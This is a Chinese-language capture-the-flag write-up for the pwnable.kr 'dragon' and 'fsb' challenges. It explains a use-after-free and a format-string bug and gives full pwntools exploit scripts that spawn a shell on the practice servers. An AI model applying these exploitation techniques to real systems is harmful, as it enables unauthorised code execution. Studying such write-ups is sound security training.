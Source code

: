 # Pwnable-Kr-Rookiss

### dragon

>I made a RPG game for my little brother.
>But to trick him, I made it impossible to win.
>I hope he doesn't get too angry with me :P!
>
>Author : rookiss
>Download : http://pwnable.kr/bin/dragon
>
>Running at : nc pwnable.kr 9004
>
>On Aug 1,2018

UAF的一道「简单题」，但我不会。。。pwn做的太少了

#### 简要分析

简单说一下为什么会有UAF漏洞，程序在`FightDragon`函数里声明了两个结构体`ptr`和`v5`，大小均为`0x10`，分别代表dragon和player。由于在`attack`函数中player的指针不论是失败或是胜利都会被free，但是这个指针并没有指向NULL，导致下一次malloc相同大小的空间时会分配到同一地址，当我们把修改这次的内容时实际上覆盖了player的内容，所以可以在这里「搞事情」。

用IDA看伪代码的时候觉得这肯定不用打赢龙的，于是一直在找「外围」的函数的利用点，但没找到什么有用的。之后看了别人的wp后发现是可以打赢龙的，并且非赢不可。

之所以能够打赢龙是因为「龙的血量」的数据大小是1个字节，即最大127，当更大时造成溢出变成负值，这时符合胜利条件。

之所以非赢不可是因为胜利之后会进入如下代码块

```c
  if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(_DWORD *))*v5)(v5);
  }
```

这里的`v2`分配的大小是`0x10`，和上面的结构体大小相同，于是`v2`的地址和`player`的地址相同，这时我们可以把`system('/bin/sh')`的地址输入，在最后一行调用的时候就相当于`getshell`了:-)

#### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
import sys
context.log_level = 'debug'

if sys.argv[1] == 'loc':
	io = process('./dragon')
else:
	io = remote('pwnable.kr',9004)

sys_addr = 0x08048DBF

def playGame():
	
	for i in range(4):
		io.sendline('1')
	for i in range(4):
		io.sendline('3\n3\n2\n')
	io.sendline(p32(sys_addr))

if __name__ == "__main__":
	
	playGame()
	io.interactive()
```



### fsb

#### 题面

> Isn't FSB almost obsolete in computer security?
> Anyway, have fun with it :)
>
> ssh fsb@pwnable.kr -p2222 (pw:guest)
>
> On Aug 15,2018

#### 大致分析

明显的格式化字符串漏洞类型的题目，由于buf不在栈上，我们需要借助栈上的其他数据如ebp来作为跳板。

类似的题目还有[HITCON-Training-lab9](https://l1b0.github.io/2018/08/08/Format-String-Bug-Training/)

题目流程大致是经过四次`read`和`printf`的fsb利用后，check输入的pw和程序随机出来的key是否相等。

我一开始想的是把key的bss段地址放到栈上，然后通过任意地址读得到key，但后来发现程序生成的key太大了，而pw的输入限制长度为10，所以不可能通过正常流程拿到权限。

那后来就覆盖sleep的got表的真实地址为`execve('/bin/sh')`，过程正好用了四次fsb。

> 1. 泄露栈的esp，方便后面定位栈上其他的地址
> 2. 泄露main的ebp，由于main的ebp和栈上的偏移不固定，所以需要单独泄露一次
> 3. 将main的ebp覆盖为sleep的got表地址
> 4. 将sleep的got表地址覆盖为`execve('/bin/sh')`

#### exp如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
from sys import *
#context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c' ]

if argv[1] == 'l':
	io = process('./fsb')
else:
	io = ssh(host='pwnable.kr',port=2222,user='fsb',password='guest').run('/home/fsb/fsb')

def DEBUG():

	gdb.attach(io,"b *0x08048608\nc")

def leak_esp():

	payload = "+%14$x+"
	io.sendline(payload)
	io.recvuntil('+')
	esp = int(io.recvuntil('+')[:-1],16)-0x50

	return esp

def leak_ebp_main():

	payload = "+%18$x+"
	io.sendline(payload)
	io.recvuntil('+')
	ebp_main = int(io.recvuntil('+')[:-1],16)

	return ebp_main

def ebp_main_to_got():

	got_addr = 0x0804A008 

	payload = "%{}c%18$n".format(got_addr)
	io.sendline(payload)

def sleep_to_flag(offset):

	flag_addr = 0x080486AB
	payload = "%{}c%{}$hn".format(flag_addr&0xffff,offset)
	io.sendline(payload)

if __name__ == '__main__':

	esp = leak_esp()
	print hex(esp)
	pause()

	ebp_main = leak_ebp_main()
	print hex(ebp_main)
	pause()

	ebp_main_to_got()
	pause()

	offset = (ebp_main-esp)/4
	sleep_to_flag(offset)
	pause()

	io.interactive()
```

#### References:

- https://blog.csdn.net/SmalOSnail/article/details/53705774
